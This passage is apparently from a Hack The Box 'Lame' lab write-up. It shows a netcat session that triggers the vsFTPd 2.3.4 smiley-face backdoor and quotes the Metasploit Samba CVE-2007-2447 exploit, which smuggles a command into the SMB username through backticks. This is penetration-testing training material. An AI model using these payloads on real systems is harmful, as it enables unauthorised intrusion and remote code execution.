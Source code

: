 ### Attempting the Exploit

I triggered the backdoor as below

```sh
george@parrot]─[~/HTB/boxes/lame]
└──╼ $ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER george:)
331 Please specify the password.
PASS george
```

At this point I should be able to get a shell, but i did not get any. Strange but will look at it once we get a shell on the box in [`Beyond Root`](#Beyond Root)

```sh
└──╼ $ nc 10.10.10.3 6200
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```

## SAMBA Exploit (CVE-2007-2447)

Lets look at the samba Exploit
```sh
searchsploit -x unix/remote/16320.rb
```

Am interested in the `def exploit` part of the script
```rb
---snip---

def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end
```

From above we can see its creating an SMB session by setting below parameters:

- username set to /=`nohup (payload) ` #nohup stands for no hang up which is a command in Linux systems that keeps processes running even after exiting the shell or terminal and starting the process outside of the current context.`
- password set to rand_text(16) `#random 16 characters`
- domain set to user provided
